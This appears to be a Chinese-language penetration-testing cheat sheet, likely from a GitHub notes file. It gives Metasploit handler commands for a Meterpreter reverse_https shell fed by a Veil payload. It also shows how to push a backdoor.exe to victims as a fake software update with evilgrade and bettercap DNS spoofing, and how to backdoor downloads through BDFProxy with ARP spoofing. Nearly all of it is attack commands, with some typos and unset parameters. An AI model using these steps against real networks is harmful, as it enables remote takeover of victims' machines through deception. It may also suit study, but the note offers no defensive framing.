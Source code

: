 ### 4.6 使用metaexplit监听来自veil的连接


	go/meteptrter/rev_htps,port 8080
	msfconsole
	use exploit/multi/handler #监听incoming connections
	show options
	set LHOST
	set LPORT
	set payload windows/meterpreter/reverse_https  # <-payload和veil中使用的保持一致


- /var/wwww/html中储存kali作为服务器时可以下载的内容

###4.7 诱导victim安装后门：
	#启动
	cd opt/evilgrade
	./evilgrade
	
	show modules
	#可以看到很多软件的虚假升级组件

	configure [module_name] #（设置module_name的配置）
	show options #其中的virtualHost是该模块的域名，使用dns欺骗的时候要替换成改属性，本例是update.speedit.com
	set agent /var/www/html/backdoor.exe #设置后门的路径
	set endsite 222.speedbit.com #设置升级之后返回的页面
	start

	#开始等待连接了
	
	
	#然后需要成为中间人

	bettercap -iface eth0 -caplet /path/to/script
	set dns.spoof.all true
	set dsn.spoof.domain update.speedit.com
	set dns.spoof on

受害人如果更新该软件就会上钩

### 4.7plus 另一种让受害人上钩的方法

	/opt/BDFProxy

	# 更改cfg：
	proxyMode:transparent
	# 更改配置文件中的HOST为本机IP（本例想对windows系统进行攻击，所以选择[[ windowsIntelx86]] [[windowsx64]]对应的配置）
	# 执行bdf_proxy.py
	
	# 成为中间人进行arp欺骗
	bettercap -iface eth0 -caplet /path/to/script
